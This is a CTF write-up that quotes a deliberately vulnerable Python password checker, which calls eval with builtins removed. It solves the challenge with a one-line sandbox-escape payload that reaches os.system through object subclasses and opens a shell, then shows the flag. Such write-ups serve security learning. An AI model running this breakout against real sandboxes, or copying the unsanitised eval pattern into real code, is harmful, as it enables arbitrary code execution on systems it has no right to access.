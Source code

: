 # Bonus: The Revenge of Checkpass 1
> Last year (in an unrelated contest), I made a Python password checker that had way too many solutions. To be fair, it was on me for using eval without sanitizing input or anything, but like, cmon, can we not just trust people nowadays? What happened to the days of leaving your front door unlocked?

> Anyways, I made it completely foolproof this time: no flag variable, no more printing, heck, no builtins at all!

> Surely it's unbreakable now…right?

> This problem was inspired by an online judge platform that shall not be named.

## About the Challenge
We have been givena a `zip` file that contain a python script. Here is the content of the script

```python
#!/usr/local/bin/python
# -*- coding: utf-8 -*-

def main():
  password = "the password can contain non-ascii charactérs :)"
  inp = input("Enter a Python list: ")
  lis = eval(inp, {'__builtins__': None}, None)
  if type(lis) != list:
    print("That's not a list")
    return
  for i in lis:
    if not isinstance(i, int):
      print("The list can only contain integers")
      return
  if lis == [ord(e) for e in password]:
    print("You are now authorized!")
    with open("flag.txt", "r") as flag:
      print(flag.read())
  else:
    print("Incorrect password!")

if __name__ == "__main__":
  main()
```

This code snippet prompts the user to enter a Python list as input, evaluates the input string as a Python expression, and assigns the resulting list to the variable lis, while restricting access to built-in functions and variables for security purposes.

## How to Solve?
Im using PyJail payload to breakout from the sandbox. Here is the payload that I used

```
().__class__.__base__.__subclasses__()[141].__init__.__globals__["system"]("sh")
```

![flag](images/flag.png)

```
ctf{pyth0n_s4ndb0x_br34k0ut_1f8bca}
```